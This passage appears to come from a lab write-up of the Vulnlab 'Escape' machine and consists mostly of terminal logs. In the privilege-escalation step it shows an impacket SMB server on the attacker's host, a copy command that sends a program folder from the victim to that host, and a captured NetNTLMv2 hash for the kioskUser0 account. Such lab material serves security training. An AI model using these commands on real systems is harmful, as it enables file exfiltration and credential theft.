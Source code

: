 ```c
C:\Users\kioskUser0\Downloads>powershell.exe
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\kioskUser0\Downloads>
```

## Privilege Escalation

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Escape/files]
└─$ sudo impacket-smbserver share . -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

```c
PS C:\Program Files (x86)\Remote Desktop Plus> copy * \\10.8.0.2\share\
```

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Escape/files]
└─$ sudo impacket-smbserver share . -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.99.129,54381)
[*] AUTHENTICATE_MESSAGE (ESCAPE\kioskUser0,ESCAPE)
[*] User ESCAPE\kioskUser0 authenticated successfully
[*] kioskUser0::ESCAPE:aaaaaaaaaaaaaaaa:6c761dc70ba65f2f3b1f548b16a9aff5:0101000000000000001321784e60da01089f3e1df65aca5100000000010010006c0070005500670045006f0066006c00030010006c0070005500670045006f0066006c000200100048004a00420058004f00790063006d000400100048004a00420058004f00790063006d0007000800001321784e60da010600040002000000080030003000000000000000000000000020000006ce2680346fb40f84ddb2e7487f085f4c3119733f9f43eeb67d91be58943f2c0a0010000000000000000000000000000000000009001a0063006900660073002f00310030002e0038002e0030002e0032000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:share)
[*] Closing down connection (10.10.99.129,54381)
[*] Remaining connections []
```
